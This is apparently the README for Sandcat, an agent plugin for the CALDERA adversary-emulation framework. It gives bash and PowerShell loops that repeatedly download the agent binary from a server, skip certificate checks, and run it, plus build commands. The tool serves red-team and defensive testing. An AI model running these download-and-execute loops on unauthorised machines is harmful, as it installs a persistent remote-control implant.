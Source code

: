 # 54ndc47

This plugin contains:
* A custom in-memory agent, with variants for Windows, Linux and MacOSX
* API endpoints for the agent to communicate to CALDERA over HTTPS

## Quick start

Start the agent on a Linux or OSX box with the bash command below
```
while true; do curl -sk -X POST -H 'file:sandcat-darwin' https://localhost:8888/file/download > /tmp/sandcat-osx && chmod +x /tmp/sandcat-osx && /tmp/sandcat-osx https://localhost:8888 my_group; sleep 60; done
```

Similarly, you can start the agent on Windows machine with the following:
```
while($true) {[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$url="https://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("file","sandcat.exe");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe https://localhost:8888 my_group; sleep 60}
```

## Updates

Make a change to the sandcat.go code? Run one of the following to recompile, then put the resulting sandcat file in the
stockpile plugin payloads directory
```
GOOS=windows go build -ldflags="-s -w" sandcat.go
GOOS=linux go build -ldflags="-s -w" sandcat.go
GOOS=darwin go build -ldflags="-s -w" sandcat.go
```